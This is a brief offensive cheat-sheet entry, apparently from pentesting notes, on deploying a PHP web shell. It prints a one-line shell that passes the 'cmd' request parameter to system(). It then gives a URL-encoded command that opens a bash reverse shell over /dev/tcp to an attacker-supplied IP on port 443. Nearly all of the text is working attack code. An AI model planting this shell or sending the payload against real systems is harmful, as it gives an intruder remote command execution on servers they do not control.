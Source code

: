 ## webshell

write a file with the following content:

```php
<?php if(isset($_GET['cmd'])){system($_GET['cmd']);} ?>
```

call the file with the parameter `?cmd=id` to check if it worked then exploit:

```bash
?cmd=bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F<IP>%2F443%200%3E%261%22
```
